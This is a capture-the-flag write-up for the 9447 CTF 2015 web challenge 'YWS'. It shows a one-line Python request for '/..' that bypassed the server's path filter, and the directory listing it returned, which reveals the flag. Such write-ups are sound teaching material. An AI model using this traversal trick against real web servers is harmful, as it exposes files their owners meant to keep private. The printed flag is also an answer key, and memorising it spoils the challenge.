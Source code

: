 # 9447 CTF 2015: YWS

**Category:** Web
**Points:** 130
**Solves:** 197
**Description:**

> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?
> 
> The web page is at <http://yws-fsiqc922.9447.plumbing>
> 
> Hint! Where does the website *not* want you to go?


## Write-up

by [f0rki](https://github.com/f0rki)

We poked around a lot at this challenge. Tried several different inputs and URLs. Only
later we realized that we could have looked at the binary of [BWS](/9447-ctf-2015/exploitation/bws)
We realized that there was something funky going on regarding the filtering of the
paths. So after poking around a little bit, I found that the following works:
```
import requests as r
print(r.get("http://yws-fsiqc922.9447.plumbing/..").content)
```
And we got back the directory listing contains the flag.
```
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
[...]
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
[...]
</ul>
<hr>
</body>
</html>
```

Apparently the webserver filtered out `../` but not `..`. We had troubles 
using the browser or curl to fetch this. Probably because they automatically 
append a `/` character or something like that.

## Other write-ups and resources

* <http://blog.jclariviere.com/posts/ctf-writeup-9447-ctf-2015-yws/>
* <https://asciinema.org/a/30881>
* <http://pastebin.com/jzd6DVMu>
* <https://gist.github.com/Invizory/7772c252b35c1bc95e6b>
* [sophia.re](http://www.sophia.re/yws.mdown.html)
